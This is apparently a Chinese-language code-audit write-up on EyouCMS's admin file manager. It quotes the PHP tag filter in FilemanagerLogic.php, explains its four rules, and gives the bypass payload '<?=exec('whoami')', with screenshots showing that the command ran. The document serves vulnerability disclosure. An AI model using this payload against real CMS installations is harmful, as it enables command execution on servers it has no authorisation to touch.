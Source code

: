 

0x00 漏洞定位分析


漏洞定位到关键文件application\admin\logic\FilemanagerLogic.php 


```
$content = htmlspecialchars_decode($content, ENT_QUOTES);
            if (preg_match('#<([^?]*)\?php#i', $content) || (preg_match('#<\?#i', $content) && preg_match('#\?>#i', $content)) || preg_match('#\{eyou\:php([^\}]*)\}#i', $content) || preg_match('#\{php([^\}]*)\}#i', $content)) {
                return "模板里不允许有php语法，为了安全考虑，请通过FTP工具进行编辑上传。";
            }

```

很明显主要的目的是不让传带php标签的内容，大体规则如下。
1、内容中不能有<?php

2、内容中不能同时有<? 和?>

3、内容中不能有{eyou:phpxxx

4、内容中不能有{php xxx

0x01 EXP编写

很明显插入 <?=exec('whoami')能进行绕过
![图片](https://github.com/Londly01/audit-hub/assets/118274389/14c4fdea-122e-43d4-b12f-6617fb457137)

成功命令执行

![图片](https://github.com/Londly01/audit-hub/assets/118274389/d702908d-4688-4769-8927-08b964d50312)




